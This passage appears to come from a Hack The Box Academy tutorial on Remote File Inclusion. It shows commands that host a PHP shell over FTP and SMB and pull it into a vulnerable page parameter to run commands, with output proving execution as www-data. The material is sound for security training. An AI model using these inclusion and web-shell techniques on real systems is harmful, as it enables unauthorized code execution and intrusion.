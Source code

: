 Tip: We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

### FTP

As mentioned earlier, we may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:

Remote File Inclusion (RFI)

```shell-session
root@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the `ftp://` scheme in the URL, as follows:

![](https://academy.hackthebox.com/storage/modules/23/rfi\_localhost.jpg)

As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

Remote File Inclusion (RFI)

```shell-session
root@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:

Remote File Inclusion (RFI)

```shell-session
root@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
